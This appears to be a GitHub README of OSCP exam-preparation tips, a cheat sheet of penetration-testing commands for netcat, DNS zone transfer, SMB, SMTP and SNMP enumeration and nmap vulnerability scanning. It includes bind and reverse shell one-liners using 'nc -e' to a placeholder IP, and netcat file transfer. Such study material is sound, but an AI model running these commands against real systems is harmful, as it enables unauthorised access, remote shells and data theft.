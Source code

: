 # Go-For-OSCP

# Tips
<b>Enable service on every reboot:</b>

update-rc.d <[service]> enable

<b>Extract link from html page:</b>

cat index.html | grep "href=" | cut -d "/" -f3| grep "debian.org" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

nc -nlvp <[PORT]>

<b>File transfer (client):</b>

nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Bind_Reverse_shell.png" width="500"/>

<b>Bind Shell:</b>

Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:

	(BOB): nc -nlvp <[PORT]> -e cmd.exe

	(ALICE): nc -nv <[BOB_IP]> <[PORT]>

<b>Reverse Shell:</b>

Alice needs Bob's help. Since Alice is beyond firewall it is impossible to BOB to reach Alice. So Alice create a reverse shell:

	(ALICE): nc -nv <[BOB_IP]> <[PORT]> -e /bin/bash

	(BOB): nc -nlvp <[PORT]>

# Zone Transfer

dnsrecon -t axfr -d <[DOMAIN]>

# SMB

nbtscan <[SUBNET]>

nmap -p139,445 --script smb-enum-users <[SUBNET]>

nmap -p139,445 --script=smb-vuln-* --script-args=unsafe=1 <[SUBNET]>

enum4linux

smbclient -L <[IP]> -N

smbclient \\<[IP]>\share -N

# SNTP

nmap -p25 <[SUBNET]> --open

nc -nv IP 25

VRFY <[USERNAME]>

# SNMP

Steps: nmap scan udp 161, create target IP list, create community list file, use onesixtyone + snmpwalk

nmap -sU --open -p161 <[SUBNET]> --open

onesixtyone -c community -i <[SMNP_IP_LIST]>

snmpwalk -c public -v1 <[IP]> <mib-values>

Mib-values (for snmpwalk):

	1.3.6.1.2.1.25.1.6.0 System Processes

	1.3.6.1.2.1.25.4.2.1.2 Running Programs

	1.3.6.1.2.1.25.4.2.1.4 Processes Path

	1.3.6.1.2.1.25.2.3.1.4 Storage Units

	1.3.6.1.2.1.25.6.3.1.2 Software Name

	1.3.6.1.4.1.77.1.2.25 User

	1.3.6.1.2.1.6.13.1.3 TCP Local Ports









# Nmap
nmap -sS -sV -A -O --script="*-vuln-*" --script-args=unsafe=1 <[IP]>
